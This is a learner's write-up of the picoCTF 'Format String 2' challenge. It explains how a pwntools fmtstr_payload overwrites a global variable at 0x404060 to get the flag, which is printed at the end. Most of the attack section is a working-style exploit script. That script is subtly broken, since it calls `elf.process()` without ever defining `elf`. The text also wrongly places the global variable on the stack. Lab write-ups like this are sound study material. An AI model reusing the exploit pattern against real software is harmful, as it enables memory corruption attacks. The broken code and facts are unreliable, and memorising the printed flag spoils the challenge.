

# Format String 2

## Challenge Description



## Approach

This was a very challenging challenge for me and it took me an entire day to solve this.

So I connected to the server via netcat and got this:

.png)

On opening the C code for this program I found that the variable sus which is globally declared is being compared with `0x67616c66` which is flag in little endian format.

.png)

So to get the flag, we need to change the value of sus which is in the stack into `0x67616c66`

Using the command `objdump -D -M intel vuln` I found that the sus variable is at the address `0x404060`

Also we've been giving a hint that `pwntools` would be very helpful in this level.

So I went through the pwntools documentation and also found this useful page : https://docs.pwntools.com/en/dev/fmtstr.html


After tons of failed attempts, this is the script that finally worked:

``` python

  1 from pwn import *
  2
  3 context.binary = ELF('./vuln')
  4
  5
  6 def send_payload(payload):
  7     p = elf.process()
  8     p.sendline(payload)
  9     return p.recvall()
 10
 11 offset = FmtStr(send_payload).offset
 12
 13 p = remote('rhea.picoctf.net', 59103)
 14 payload = fmtstr_payload(offset, {0x404060: 0x67616c66})
 15 p.sendline(payload)
 16 info(p.recvall())
 17 p.close()

 ```

 Okay so I'll summarize what's happening here:

 1. We load the binary for the `vuln` program and this lets us get info about the binary.

 2. Then I created a function that takes in our payload and recieves all output from the binary and returns that output

 3. FmtStr class automatically finds the offset in format string. `Offset is basically how many pop operations happen before our input is reached on the stack`

 4. I sent my payload at the offset I found with the `target address: 0x404060` and `target value: 0x67616c66`

 5. We send the payload and get all the output.


 Interestingly, when I used `print` instead of `info` I wasn't able to get the flag, but when I used info it worked after giving a lot of garbage values. I'm not really sure why this happened.

 .png)

 ## My learning

 1. pwntools and fmtstr in pwntools

 ## Flag

 `picoCTF{f0rm47_57r?_f0rm47_m3m_5161A699}`